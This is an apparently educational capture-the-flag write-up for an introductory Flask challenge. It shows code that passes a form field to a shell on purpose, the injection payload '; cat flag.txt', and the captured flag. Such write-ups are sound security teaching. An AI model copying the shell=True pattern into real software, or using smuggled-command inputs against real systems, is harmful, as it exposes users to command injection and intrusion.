 +++
date = "2025-03-05"
title = "Snyk Fetch The Flag - CTF 101"
author = "Javier Olmedo"
toc = false
+++

[![/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_banner.png](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_banner.png)](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_banner.png)

This challenge is designed as an **introduction to CTFs** (Capture The Flag). It is a simple challenge aimed at getting familiar with exploiting vulnerabilities in web applications.

By analyzing the provided source code, we can see that it is a web application developed with **Flask (Python)**. Here is the code:

```python
from flask import Flask, render_template, request, redirect, flash
import subprocess

app = Flask(__name__)
app.secret_key = "supersecretkey"

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        name = request.form.get("name", "").strip()

        if not name:
            flash("Error: Name cannot be empty.", "error")
            return redirect("/")

        try:
            # I sure hope no one tries to run any commands by injecting here...
            output = subprocess.check_output(f"echo {name}", shell=True, text=True, stderr=subprocess.STDOUT)
            flash(f"Hello, {output.strip()}! Good luck!", "success")
            # ...alright, the challenges won't be this obvious on game day, but I hope it gives you a good idea of how the game is played!
        except subprocess.CalledProcessError as e:
            flash(f"Error: {e.output.strip()}", "error")

        return redirect("/")

    return render_template("index.html")

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

## 🔍 Where is the vulnerability?

The main issue lies in the following piece of code:

```python
output = subprocess.check_output(f"echo {name}", shell=True, text=True, stderr=subprocess.STDOUT)
```

Here, the `name` value (coming from unsanitized user input) is directly concatenated into a command executed via `subprocess.check_output()`, using `shell=True`. This allows us to concatenate a second command using the payload `; <command>`.

## 💣 Exploitation

To obtain the flag, we simply send the following payload as the value of `name`:

```bash
; cat flag.txt
```

[![/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_001.png](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_001.png)](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_001.png)

[![/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_002.png](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_002.png)](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_002.png)

## 🚩 Flag

```txt
flag{3b74fc0628299870edabc5072b25cf78}
```
